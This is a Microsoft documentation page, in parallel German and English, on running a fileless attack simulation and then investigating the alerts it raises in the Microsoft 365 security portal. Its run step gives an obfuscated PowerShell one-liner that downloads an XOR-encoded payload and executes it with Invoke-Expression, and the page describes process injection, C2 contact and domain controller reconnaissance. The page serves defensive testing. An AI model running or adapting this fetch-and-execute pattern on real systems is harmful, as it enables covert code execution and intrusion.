

# <a name="run-your-microsoft-threat-protection-attack-simulations"></a><span data-ttu-id="05c82-104">Ausführen von Microsoft Threat Protection-Angriffssimulationen</span><span class="sxs-lookup"><span data-stu-id="05c82-104">Run your Microsoft Threat Protection attack simulations</span></span>  

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


<span data-ttu-id="05c82-105">**Gilt für:**</span><span class="sxs-lookup"><span data-stu-id="05c82-105">**Applies to:**</span></span>
- <span data-ttu-id="05c82-106">Microsoft Threat Protection</span><span class="sxs-lookup"><span data-stu-id="05c82-106">Microsoft Threat Protection</span></span>
<br>
<table border="0" width="100%" align="center">
  <tr style="text-align:center;">
    <td align="center" style="width:25%; border:0;" >
      <a href= "https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-plan"> 
        
      <br/><span data-ttu-id="05c82-108">Plan </a></span><span class="sxs-lookup"><span data-stu-id="05c82-108">Plan </a></span></span><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/prepare-mtpeval">
        
      <br/><span data-ttu-id="05c82-110">Vorbereiten </a></span><span class="sxs-lookup"><span data-stu-id="05c82-110">Prepare </a></span></span><br>
    </td>
    <td align="center"bgcolor="#d5f5e3">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-simulate">
        
      <br/><span data-ttu-id="05c82-112">Simulieren des Angriffs </a></span><span class="sxs-lookup"><span data-stu-id="05c82-112">Simulate attack </a></span></span><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-close">
        
      <br/><span data-ttu-id="05c82-114">Schließen und zusammenfassen </a></span><span class="sxs-lookup"><span data-stu-id="05c82-114">Close and summarize </a></span></span><br>
    </td>
  </tr>
  <tr>
    <td style="width:25%; border:0;">
   
    </td>
    <td valign="top" style="width:25%; border:0;">
    
</td>
    <td valign="top" style="width:25%; border:0;">

</td>    
    <td valign="top" style="width:25%; border:0;">

</td>
  </tr>
</table>

<span data-ttu-id="05c82-115">Sie befinden sich derzeit in der Angriffs Simulationsphase.</span><span class="sxs-lookup"><span data-stu-id="05c82-115">You're currently in the attack simulation phase.</span></span>

<span data-ttu-id="05c82-116">Nachdem Sie Ihre Pilotumgebung vorbereitet haben, ist es an der Zeit, die Microsoft Threat Protection-Vorfallverwaltung und die automatisierten Ermittlungs-und Korrekturfunktionen zu testen.</span><span class="sxs-lookup"><span data-stu-id="05c82-116">After preparing your pilot environment, it’s time to test the Microsoft Threat Protection incident management and automated investigation and remediation capabilities.</span></span> <span data-ttu-id="05c82-117">Wir unterstützen Sie bei der Simulation eines ausgeklügelten Angriffs, der fortschrittliche Techniken nutzt, um die Erkennung zu verbergen.</span><span class="sxs-lookup"><span data-stu-id="05c82-117">We will help you to simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="05c82-118">Der Angriff listet die geöffneten SMB-Sitzungen (Server Message Block) auf Domänencontrollern auf und ruft aktuelle IP-Adressen der Benutzer Geräte ab.</span><span class="sxs-lookup"><span data-stu-id="05c82-118">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users’ devices.</span></span> <span data-ttu-id="05c82-119">Diese Kategorie von Angriffen umfasst normalerweise keine Dateien, die auf dem Gerät des Benutzers abgelegt werden – Sie treten ausschließlich im Arbeitsspeicher auf.</span><span class="sxs-lookup"><span data-stu-id="05c82-119">This category of attacks usually doesn’t include files dropped on the victim’s device—they occur solely in memory.</span></span> <span data-ttu-id="05c82-120">Sie "Leben außerhalb des Landes" mit vorhandenen System-und Verwaltungstools und fügen Ihren Code in Systemprozesse ein, um deren Ausführung auszublenden, sodass Sie die Erkennung umgehen und auf dem Gerät dauerhaft bleiben können.</span><span class="sxs-lookup"><span data-stu-id="05c82-120">They “live off the land” by using existing system and administrative tools and inject their code into system processes to hide their execution, allowing them to evade detection and persist on the device.</span></span>

<span data-ttu-id="05c82-121">In dieser Simulation beginnt unser Beispielszenario mit einem PowerShell-Skript.</span><span class="sxs-lookup"><span data-stu-id="05c82-121">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="05c82-122">Möglicherweise wird ein Benutzer zum Ausführen eines Skripts ausgetrickst.</span><span class="sxs-lookup"><span data-stu-id="05c82-122">A user might be tricked into running a script.</span></span> <span data-ttu-id="05c82-123">Oder das Skript kann von einer Remoteverbindung mit einem anderen Computer als einem zuvor infizierten Gerät ausgeführt werden – dem Angreifer, der versucht, sich seitlich im Netzwerk zu positionieren.</span><span class="sxs-lookup"><span data-stu-id="05c82-123">Or the script might run from a remote connection to another computer from a previously infected device—the attacker attempting to move laterally in the network.</span></span> <span data-ttu-id="05c82-124">Die Erkennung dieser Skripts kann schwierig sein, da Administratoren auch häufig Skripts remote ausführen, um verschiedene administrative Aktivitäten auszuführen.</span><span class="sxs-lookup"><span data-stu-id="05c82-124">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="05c82-126">Während der Simulation injiziert der Angriff Shellcode in einen scheinbar unschuldigen Prozess.</span><span class="sxs-lookup"><span data-stu-id="05c82-126">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="05c82-127">In diesem Szenario verwenden wir notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="05c82-127">In this scenario, we’ll use notepad.exe.</span></span> <span data-ttu-id="05c82-128">Wir haben diesen Prozess für die Simulation ausgewählt, aber Angreifer werden wahrscheinlicher auf einen langwierigen Systemprozess wie svchost.exe Zielen.</span><span class="sxs-lookup"><span data-stu-id="05c82-128">We chose this process for the simulation, but attackers will more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="05c82-129">Der Shellcode fährt dann mit dem Command-and-Control (C2)-Server des Angreifers in Verbindung, um Anweisungen zum Fortfahren zu erhalten.</span><span class="sxs-lookup"><span data-stu-id="05c82-129">The shellcode then goes on to contact the attacker’s command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="05c82-130">Außerdem versucht das Skript, Aufklärungs Abfragen für den Domänencontroller (DC) auszuführen.</span><span class="sxs-lookup"><span data-stu-id="05c82-130">In addition, the script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="05c82-131">Dadurch kann ein Angreifer Informationen zu aktuellen Benutzeranmeldeinformationen abrufen.</span><span class="sxs-lookup"><span data-stu-id="05c82-131">This allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="05c82-132">Wenn Angreifer über diese Informationen verfügen, können Sie sich seitlich im Netzwerk umziehen, um zu einem bestimmten vertraulichen Konto zu gelangen.</span><span class="sxs-lookup"><span data-stu-id="05c82-132">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

>[!IMPORTANT]
><span data-ttu-id="05c82-133">Um optimale Ergebnisse zu erzielen, folgen Sie den Anweisungen zur Angriffssimulation so genau wie möglich.</span><span class="sxs-lookup"><span data-stu-id="05c82-133">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>


## <a name="simulation-environment-requirements"></a><span data-ttu-id="05c82-134">Anforderungen an die Simulationsumgebung</span><span class="sxs-lookup"><span data-stu-id="05c82-134">Simulation environment requirements</span></span>

<span data-ttu-id="05c82-135">Da Sie die Pilotumgebung bereits während der Vorbereitungsphase konfiguriert haben, stellen Sie sicher, dass Sie über zwei Geräte für dieses Szenario verfügen: ein Test Gerät und einen Domänencontroller.</span><span class="sxs-lookup"><span data-stu-id="05c82-135">Since you have already configured your pilot environment during the preparation phase, ensure that you have two devices for this scenario: a test device and a domain controller.</span></span>

1.  <span data-ttu-id="05c82-136">Stellen Sie sicher, dass Ihr Mandant [Microsoft Threat Protection-Schutz aktiviert](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)hat.</span><span class="sxs-lookup"><span data-stu-id="05c82-136">Verify your tenant has [enabled Microsoft Threat Microsoft Threat Protection](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span></span>
2.  <span data-ttu-id="05c82-137">Überprüfen Sie die Konfiguration des Testdomänen Controllers:</span><span class="sxs-lookup"><span data-stu-id="05c82-137">Verify your test domain controller configuration:</span></span>
    - <span data-ttu-id="05c82-138">Das Gerät wird mit Windows Server 2008 R2 oder einer höheren Version ausgeführt.</span><span class="sxs-lookup"><span data-stu-id="05c82-138">Device runs with Windows Server 2008 R2 or a later version.</span></span>
    - <span data-ttu-id="05c82-139">Der Testdomänencontroller auf [Azure Advanced Threat Protection](https://docs.microsoft.com/azure/security-center/security-center-wdatp) und Aktivieren der [Remoteverwaltung](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span><span class="sxs-lookup"><span data-stu-id="05c82-139">The test domain controller to [Azure Advanced Threat Protection](https://docs.microsoft.com/azure/security-center/security-center-wdatp) and enable [remote management](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>    
    - <span data-ttu-id="05c82-140">Stellen Sie sicher, dass die [Azure ATP-und die Microsoft Cloud-App-Sicherheitsintegration](https://docs.microsoft.com/cloud-app-security/aatp-integration) aktiviert wurden.</span><span class="sxs-lookup"><span data-stu-id="05c82-140">Verify that [Azure ATP and Microsoft Cloud App Security integration](https://docs.microsoft.com/cloud-app-security/aatp-integration) have been enabled.</span></span>
    - <span data-ttu-id="05c82-141">In Ihrer Domäne wird ein Testbenutzer erstellt – es sind keine Administratorberechtigungen erforderlich.</span><span class="sxs-lookup"><span data-stu-id="05c82-141">A test user is created on your domain – no admin permissions needed.</span></span>

3.  <span data-ttu-id="05c82-142">Überprüfen der Konfiguration der Testgeräte:</span><span class="sxs-lookup"><span data-stu-id="05c82-142">Verify test device configuration:</span></span>
    <br>
    <span data-ttu-id="05c82-143">a.</span><span class="sxs-lookup"><span data-stu-id="05c82-143">a.</span></span>  <span data-ttu-id="05c82-144">Das Gerät wird mit Windows 10 Version 1903 oder einer höheren Version ausgeführt.</span><span class="sxs-lookup"><span data-stu-id="05c82-144">Device runs with Windows 10 version 1903 or a later version.</span></span>
    <br>
    <span data-ttu-id="05c82-145">b.</span><span class="sxs-lookup"><span data-stu-id="05c82-145">b.</span></span>  <span data-ttu-id="05c82-146">Das Test Gerät ist der Testdomäne beigetreten.</span><span class="sxs-lookup"><span data-stu-id="05c82-146">Test device is joined to the test domain.</span></span>
    <br>
    <span data-ttu-id="05c82-147">c.</span><span class="sxs-lookup"><span data-stu-id="05c82-147">c.</span></span>  <span data-ttu-id="05c82-148">[Aktivieren Sie Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="05c82-148">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="05c82-149">Wenn Sie Probleme beim Aktivieren von Windows Defender Antivirus haben, lesen Sie dieses [Thema zur Problembehandlung](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span><span class="sxs-lookup"><span data-stu-id="05c82-149">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <br>
    <span data-ttu-id="05c82-150">d.</span><span class="sxs-lookup"><span data-stu-id="05c82-150">d.</span></span>  <span data-ttu-id="05c82-151">Stellen Sie sicher, dass das Testgerät [auf Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)fest vorliegt.</span><span class="sxs-lookup"><span data-stu-id="05c82-151">Verify that the test device is [onboarded to Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="05c82-152">Wenn Sie einen vorhandenen Mandanten verwenden und Gerätegruppen implementieren, erstellen Sie eine dedizierte Gerätegruppe für das Test Gerät, und drücken Sie Sie in der Konfigurations-UX auf die oberste Ebene.</span><span class="sxs-lookup"><span data-stu-id="05c82-152">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>


## <a name="run-the-simulation"></a><span data-ttu-id="05c82-153">Ausführen der Simulation</span><span class="sxs-lookup"><span data-stu-id="05c82-153">Run the simulation</span></span>

<span data-ttu-id="05c82-154">So führen Sie die Angriffsszenario-Simulation aus:</span><span class="sxs-lookup"><span data-stu-id="05c82-154">To run the attack scenario simulation:</span></span>

1.  <span data-ttu-id="05c82-155">Melden Sie sich mit dem Testbenutzerkonto beim Testgerät an.</span><span class="sxs-lookup"><span data-stu-id="05c82-155">Log in to the test device with the test user account.</span></span>

2.  <span data-ttu-id="05c82-156">Öffnen Sie auf dem Test Gerät ein Windows PowerShell Fenster.</span><span class="sxs-lookup"><span data-stu-id="05c82-156">Open a Windows PowerShell window on the test device.</span></span>

3.  <span data-ttu-id="05c82-157">Kopieren Sie das folgende Simulations Skript:</span><span class="sxs-lookup"><span data-stu-id="05c82-157">Copy the following simulation script:</span></span>
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
>[!NOTE]
><span data-ttu-id="05c82-158">Wenn Sie dieses Dokument in einem Webbrowser öffnen, können Probleme beim Kopieren des vollständigen Texts auftreten, ohne dass bestimmte Zeichen verloren gehen oder zusätzliche Zeilenumbrüche eingeführt werden.</span><span class="sxs-lookup"><span data-stu-id="05c82-158">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="05c82-159">Laden Sie dieses Dokument herunter, und öffnen Sie es in Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="05c82-159">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="05c82-160">Fügen Sie an der Eingabeaufforderung das kopierte Skript ein, und führen Sie es aus.</span><span class="sxs-lookup"><span data-stu-id="05c82-160">At the prompt, paste and run the copied script.</span></span>

>[!NOTE]
><span data-ttu-id="05c82-161">Wenn Sie PowerShell mithilfe von Remotedesktopprotokoll (RDP) ausführen, verwenden Sie den Befehl Text Zwischenablage im RDP-Client, da die **STRG-V** -Hotkey oder die Rechtsklick-Paste-Methode möglicherweise nicht funktioniert.</span><span class="sxs-lookup"><span data-stu-id="05c82-161">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span>  <span data-ttu-id="05c82-162">Neuere Versionen von PowerShell akzeptieren diese Methode manchmal auch nicht, Sie müssen möglicherweise zuerst in den Editor im Arbeitsspeicher kopieren, Sie in den virtuellen Computer kopieren und dann in PowerShell einfügen.</span><span class="sxs-lookup"><span data-stu-id="05c82-162">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="05c82-163">Einige Sekunden später wird <i>notepad.exe</i> geöffnet.</span><span class="sxs-lookup"><span data-stu-id="05c82-163">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="05c82-164">Ein simulierter Angriffscode wird in notepad.exe injiziert.</span><span class="sxs-lookup"><span data-stu-id="05c82-164">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="05c82-165">Lassen Sie die automatisch generierte Notepad-Instanz geöffnet, um das vollständige Szenario zu erleben.</span><span class="sxs-lookup"><span data-stu-id="05c82-165">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="05c82-166">Der simulierte Angriffscode versucht, mit einer externen IP-Adresse (simulieren des C2-Servers) zu kommunizieren und dann mithilfe von SMB eine Aufklärung über den Domänencontroller durchführen zu können.</span><span class="sxs-lookup"><span data-stu-id="05c82-166">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="05c82-167">Wenn dieses Skript abgeschlossen ist, wird in der PowerShell-Konsole eine Meldung angezeigt.</span><span class="sxs-lookup"><span data-stu-id="05c82-167">You will see a message displayed on the PowerShell console when this script completes.</span></span>

```
ran NetSessionEnum against [DC Name] with return code result 0      
```

<span data-ttu-id="05c82-168">Wenn Sie die Funktion für automatische Vorfall-und Reaktionsfunktionen in Aktion anzeigen möchten, halten Sie den notepad.exe Prozess geöffnet.</span><span class="sxs-lookup"><span data-stu-id="05c82-168">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="05c82-169">Sie werden sehen, dass der Notepad-Prozess automatisch von Vorfall und Antwort beendet wird.</span><span class="sxs-lookup"><span data-stu-id="05c82-169">You will see Automated Incident and Response stop the Notepad process.</span></span>


## <a name="investigate-an-incident"></a><span data-ttu-id="05c82-170">Untersuchung eines Vorfalls</span><span class="sxs-lookup"><span data-stu-id="05c82-170">Investigate an incident</span></span>

>[!NOTE]
><span data-ttu-id="05c82-171">Bevor Sie diese Simulation durchlaufen, sehen Sie sich das folgende Video an, um zu erfahren, wie Sie mit Incident Management die entsprechenden Warnungen im Rahmen des Untersuchungsprozesses zusammenfassen, wo Sie Sie im Portal finden und wie Sie Sie in ihren sicherheitsvorgängen unterstützen können:</span><span class="sxs-lookup"><span data-stu-id="05c82-171">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="05c82-172">Wenn Sie zur SOC Analyst-Perspektive wechseln, können Sie nun mit der Untersuchung des Angriffs im Microsoft 365 Security Center-Portal beginnen.</span><span class="sxs-lookup"><span data-stu-id="05c82-172">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Security Center portal.</span></span> 

1.  <span data-ttu-id="05c82-173">Öffnen Sie die Warteschlange des [Microsoft 365-Sicherheits Center-Portals](https://security.microsoft.com/incidents) von jedem Gerät aus.</span><span class="sxs-lookup"><span data-stu-id="05c82-173">Open the [Microsoft 365 Security Center portal](https://security.microsoft.com/incidents) incident queue from any device.</span></span>

2.  <span data-ttu-id="05c82-174">Navigieren Sie im Menü zu **Vorfälle** .</span><span class="sxs-lookup"><span data-stu-id="05c82-174">Navigate to **Incidents** from the menu.</span></span> 

    

3.  <span data-ttu-id="05c82-176">Der neue Vorfall für den simulierten Angriff wird in der Vorfall Warteschlange angezeigt.</span><span class="sxs-lookup"><span data-stu-id="05c82-176">The new incident for the simulated attack will appear in the incident queue.</span></span>
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="05c82-178">Untersuchen des Angriffs als einzelner Vorfall</span><span class="sxs-lookup"><span data-stu-id="05c82-178">Investigate the attack as a single incident</span></span>

<span data-ttu-id="05c82-179">Microsoft Threat Protection korreliert Analysen und aggregiert alle zugehörigen Warnungen und Untersuchungen von verschiedenen Produkten zu einer Vorfall Entität.</span><span class="sxs-lookup"><span data-stu-id="05c82-179">Microsoft Threat Protection correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="05c82-180">Auf diese Weise zeigt Microsoft Threat Protection eine breitere Angriffs Geschichte, sodass der SOC-Analyst komplexe Bedrohungen verstehen und darauf reagieren kann.</span><span class="sxs-lookup"><span data-stu-id="05c82-180">By doing so, Microsoft Threat Protection shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="05c82-181">Die während dieser Simulation generierten Warnungen werden der gleichen Bedrohung zugeordnet und werden als Ergebnis automatisch als einzelner Vorfall aggregiert.</span><span class="sxs-lookup"><span data-stu-id="05c82-181">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="05c82-182">So zeigen Sie den Vorfall an:</span><span class="sxs-lookup"><span data-stu-id="05c82-182">To view the incident:</span></span>

1.  <span data-ttu-id="05c82-183">Navigieren Sie zur Warteschlange für **Vorfälle** .</span><span class="sxs-lookup"><span data-stu-id="05c82-183">Navigate to the **Incidents** queue.</span></span>
 
    

2.  <span data-ttu-id="05c82-185">Wählen Sie das neueste Element aus, indem Sie auf den Kreis links neben dem Vorfall Namen klicken.</span><span class="sxs-lookup"><span data-stu-id="05c82-185">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="05c82-186">Ein Seitenbereich zeigt zusätzliche Informationen zu dem Vorfall an, einschließlich aller zugehörigen Warnungen.</span><span class="sxs-lookup"><span data-stu-id="05c82-186">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="05c82-187">Jeder Vorfall hat einen eindeutigen Namen, der ihn basierend auf den Attributen der darin enthaltenen Warnungen beschreibt.</span><span class="sxs-lookup"><span data-stu-id="05c82-187">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

    

    <span data-ttu-id="05c82-189">Die Warnungen, die im Dashboard angezeigt werden, können basierend auf den Dienst Ressourcen gefiltert werden: Azure ATP, Microsoft Cloud App Security, Microsoft Defender ATP, Microsoft Threat Protection und Office ATP.</span><span class="sxs-lookup"><span data-stu-id="05c82-189">The alerts that shows in the dashboard can be filtered based on service resources: Azure ATP, Microsoft Cloud App Security, Microsoft Defender ATP, Microsoft Threat Protection, and Office ATP.</span></span>  

3.  <span data-ttu-id="05c82-190">Wählen Sie **Vorfall öffnen** aus, um weitere Informationen zum Vorfall zu erhalten.</span><span class="sxs-lookup"><span data-stu-id="05c82-190">Select **Open incident page** to get more information about the incident.</span></span>

    <span data-ttu-id="05c82-191">Auf der Seite " **Vorfall** " werden alle Warnungen und Informationen im Zusammenhang mit dem Vorfall angezeigt.</span><span class="sxs-lookup"><span data-stu-id="05c82-191">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="05c82-192">Dazu gehören die Entitäten und Objekte, die an der Warnung beteiligt sind, die Erkennungs Quelle der Warnungen (Azure ATP, EDR) und der Grund, warum Sie miteinander verknüpft wurden.</span><span class="sxs-lookup"><span data-stu-id="05c82-192">This includes the entities and assets that are involved in the alert, the detection source of the alerts (Azure ATP, EDR), and the reason they were linked together.</span></span> <span data-ttu-id="05c82-193">Das Überprüfen der Vorfall Warnungsliste zeigt den Fortschritt des Angriffs an.</span><span class="sxs-lookup"><span data-stu-id="05c82-193">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="05c82-194">In dieser Ansicht können Sie die einzelnen Warnungen anzeigen und untersuchen.</span><span class="sxs-lookup"><span data-stu-id="05c82-194">From this view, you can see and investigate the individual alerts.</span></span>

    <span data-ttu-id="05c82-195">Sie können auch im rechten Menü auf **Vorfall verwalten** klicken, den Vorfall markieren, ihn selbst zuweisen und Kommentare hinzufügen.</span><span class="sxs-lookup"><span data-stu-id="05c82-195">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

    

    


### <a name="review-generated-alerts"></a><span data-ttu-id="05c82-198">Überprüfen generierter Warnungen</span><span class="sxs-lookup"><span data-stu-id="05c82-198">Review generated alerts</span></span> 

<span data-ttu-id="05c82-199">Sehen wir uns einige der Warnungen an, die während des simulierten Angriffs generiert wurden.</span><span class="sxs-lookup"><span data-stu-id="05c82-199">Let’s look at some of the alerts generated during the simulated attack.</span></span>

>[!NOTE]
><span data-ttu-id="05c82-200">Wir werden nur einige der Warnungen durchlaufen, die während des simulierten Angriffs generiert wurden.</span><span class="sxs-lookup"><span data-stu-id="05c82-200">We’ll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="05c82-201">Je nach der Version von Windows und den Microsoft Threat Protection-Produkten, die auf Ihrem Test Gerät ausgeführt werden, werden möglicherweise weitere Warnungen angezeigt, die in einer etwas anderen Reihenfolge angezeigt werden.</span><span class="sxs-lookup"><span data-stu-id="05c82-201">Depending on the version of Windows and the Microsoft Threat Protection products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>

 


<span data-ttu-id="05c82-203">**Warnung: beobachtete verdächtige Prozess Injektion (Quelle: Microsoft Defender ATP EDR)**</span><span class="sxs-lookup"><span data-stu-id="05c82-203">**Alert: Suspicious process injection observed (Source: Microsoft Defender ATP EDR)**</span></span>

<span data-ttu-id="05c82-204">Fortgeschrittene Angreifer verwenden ausgefeilte und heimliche Methoden, um im Arbeitsspeicher zu bleiben und vor Erkennungstools zu verstecken.</span><span class="sxs-lookup"><span data-stu-id="05c82-204">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="05c82-205">Eine gängige Technik besteht darin, in einem vertrauenswürdigen Systemprozess statt in einer schädlichen ausführbaren Datei zu arbeiten, sodass Erkennungstools und Sicherheitsvorgänge den bösartigen Code erkennen können.</span><span class="sxs-lookup"><span data-stu-id="05c82-205">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="05c82-206">Damit die SoC-Analysten diese fortgeschrittenen Angriffe abfangen können, bieten Deep Memory-Sensoren in Microsoft Defender ATP unserem clouddienst eine beispiellose Sichtbarkeit in einer Vielzahl prozessübergreifender Code Injektionstechniken.</span><span class="sxs-lookup"><span data-stu-id="05c82-206">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender ATP provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="05c82-207">In der folgenden Abbildung wird gezeigt, wie Microsoft Defender ATP erkannt und bei dem Versuch gewarnt wurde, Code <i>notepad.exe</i>hinzufügen zu können.</span><span class="sxs-lookup"><span data-stu-id="05c82-207">The following figure shows how Microsoft Defender ATP detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>

 


<span data-ttu-id="05c82-209">**Warnung: unerwartetes Verhalten, das von einem Prozess beobachtet wird, der ohne Befehlszeilenargumente ausgeführt wird (Quelle: Microsoft Defender ATP EDR)**</span><span class="sxs-lookup"><span data-stu-id="05c82-209">**Alert: Unexpected behavior observed by a process run with no command line arguments (Source: Microsoft Defender ATP EDR)**</span></span>

